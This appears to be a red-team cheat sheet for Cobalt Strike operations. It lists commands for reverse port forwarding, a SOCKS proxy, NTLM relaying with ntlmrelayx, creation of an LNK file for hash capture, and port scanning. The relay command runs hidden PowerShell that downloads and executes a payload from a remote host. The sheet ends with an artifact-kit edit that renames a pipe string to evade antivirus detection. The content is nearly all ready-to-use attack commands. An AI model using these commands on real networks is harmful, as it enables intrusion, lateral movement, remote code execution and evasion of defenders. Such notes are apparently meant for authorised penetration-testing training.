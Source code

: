 * Create a reverse port forward that will then relay the traffic from port 8445 to port 445 on the Team Server (where ntlmrelayx will be waiting).

```
rportfwd 8445 127.0.0.1 445
```

**Create sockx proxy**

```
socks 1080
```

**NTLMRelay execute command**

```
proxychains python3 /usr/local/bin/ntlmrelayx.py -t smb://10.10.17.68 -smb2support --no-http-server --no-wcf-server -c
'powershell -nop -w hidden -c "iex (new-object net.webclient).downloadstring(\"http://10.10.17.231:8080/b\")"'
```

**Stop portbender**

```
jobs
jobkill <JID>
kill <PID>
```

**Create link file**

```
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\<IP>\test.lnk")
$shortcut.IconLocation = "\\<IP>\test.ico"
$shortcut.Save()
```

**Portscan**

```
portscan <CIDR> 139,445,3389,5985 none 1024
```

### Evasion

#### Artifact-kit

```
vim /opt/cobaltstrike/artifact-kit/src-common/bypass-pipe.c
```

#### Changed this part from --> to

```
"%c%c%c%c%c%c%c%c%cMSSE-%d-server"
"%c%c%c%c%c%c%c%c%cService-%d-server"
```
